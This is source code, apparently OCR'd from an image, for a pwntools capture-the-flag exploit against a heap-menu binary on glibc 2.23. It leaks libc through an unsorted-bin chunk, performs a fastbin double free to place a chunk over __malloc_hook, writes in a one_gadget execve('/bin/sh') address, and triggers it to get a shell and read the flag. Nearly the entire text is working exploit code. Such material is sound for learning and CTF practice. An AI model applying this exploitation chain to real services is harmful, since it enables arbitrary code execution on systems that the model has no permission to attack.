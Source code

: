 ```py
    # leak libc
    add(0, 0x450)  # unsorted bin size
    add(1, 0x10)  # avoid consolidation of the above when freed
    free(0)  # puts 0 in unsorted bins
    view(0)  # libc leak
    libc.address = u64(io.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00")) - (
        libc.symbols.main_arena + 88  # Offset of the leak found with GDB
    )
    log.success(f"libc @ {hex(libc.address)}")

    # cleanup
    add(0, 0x450)

    # overwrite __malloc_hook
    add(3, 0x60)
    add(4, 0x60)
    # fastbin double free
    free(3)

    # free(4) needed to bypass a check: https://elixir.bootlin.com/glibc/glibc-2.23/source/malloc/malloc.c#L3933
    free(4)
    free(3)  # double free!

    # chunksize on this pointer returns a size of 0x7f, which is valid for fastbins
    # 0x7f comes by taking a misaligned pointer to libc
    change(3, p64(libc.symbols.__malloc_hook - 0x23))

    add(5, 0x60)
    add(6, 0x60)  # contains our pointer into libc!

    """
    0x45226 execve("/bin/sh", rsp+0x30, environ)
    constraints:
      rax == NULL

    0x4527a execve("/bin/sh", rsp+0x30, environ)
    constraints:
      [rsp+0x30] == NULL

    0xf03a4 execve("/bin/sh", rsp+0x50, environ)
    constraints:
      [rsp+0x50] == NULL

    0xf1247 execve("/bin/sh", rsp+0x70, environ)
    constraints:
      [rsp+0x70] == NULL
    """
    # Overwrite __malloc_hook with a one_gadget
    change(6, b"A" * 3 + b"B" * 8 * 2 + p64(libc.address + 0x4527A))
    add(0, 0x10)  # Trigger __malloc_hook
    
    # Profit!
    io.sendline(b"cat flag.txt")
    io.interactive()


if __name__ == "__main__":
    main()
```
